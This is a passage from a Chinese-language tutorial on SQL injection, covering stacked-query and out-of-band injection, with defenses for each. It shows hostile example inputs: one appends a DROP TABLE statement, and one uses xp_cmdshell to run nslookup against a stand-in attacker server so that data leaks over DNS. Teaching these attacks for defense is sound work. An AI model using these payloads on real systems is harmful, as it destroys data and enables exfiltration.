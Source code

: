 ## 5. 堆叠查询注入（Stacked Queries SQL Injection）

### 原理
攻击者通过分号（`;`）将多个SQL语句堆叠在一起，依次执行。这种方式可以执行任意SQL语句，危害极大。

### 示例
假设应用程序的SQL查询如下：
```sql
SELECT * FROM users WHERE id = 用户输入;
```
攻击者输入：
```sql
1; DROP TABLE users;
```
生成的SQL语句为：
```sql
SELECT * FROM users WHERE id = 1; DROP TABLE users;
```
查询将删除`users`表。

### 防御
- 禁止多语句查询。
- 使用参数化查询。

---

## 6. 带外数据注入（Out-of-Band SQL Injection）

### 原理
攻击者通过构造恶意查询，将数据通过DNS请求、HTTP请求等方式发送到外部服务器，从而绕过应用程序的直接响应。

### 示例
假设应用程序的SQL查询如下：
```sql
SELECT * FROM users WHERE id = 用户输入;
```
攻击者输入：
```sql
1; EXEC xp_cmdshell('nslookup 攻击者服务器.com');
```
生成的SQL语句为：
```sql
SELECT * FROM users WHERE id = 1; EXEC xp_cmdshell('nslookup 攻击者服务器.com');
```
攻击者可以通过DNS日志获取数据。

### 防御
- 禁用危险函数（如`xp_cmdshell`）。
- 限制数据库的网络访问权限。

---
